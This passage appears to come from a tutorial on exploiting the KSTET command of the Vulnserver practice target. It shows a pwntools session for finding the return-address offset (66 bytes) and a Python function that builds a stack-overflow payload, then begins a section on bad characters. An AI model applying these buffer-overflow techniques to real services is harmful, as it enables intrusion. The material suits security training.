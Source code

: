 Once again we can find this offset in our buffer like so:

```python
[23-Apr-20 05:57:46] 192.168.1.64 KSTET > python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyc
66
```

From this we can see that byte sequence is at offset 66 within our buffer. For a final confirmation we can borrow a portion of our TRUN payload, adjusting the byte lengths approriatly:

```python
def make_payload():
    prepend = b"KSTET /.:/"
    pattern = b"A"*66
    eip = b"B"*4
    buffer_space = 100 - len(pattern) - len(eip)
    payload_struct = pattern + eip + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

Which as we an see works like a charm:

![image-20200423060610088](/assets/images/vulnserver/KSTET/image-20200423060610088.png)

###  Bad Characters

As we know by now bad characters will mess up our day,  however as we are limited by bytes size we need to chop up our hex bytes up to fit in our payload. From 0x00 to 0xff there 256 bytes which we can split into 4 segments of 64 which makes it really easy for us. Even better for us, we can make python do all the heavy lifting.  Drop into the REPL and run the following commands:

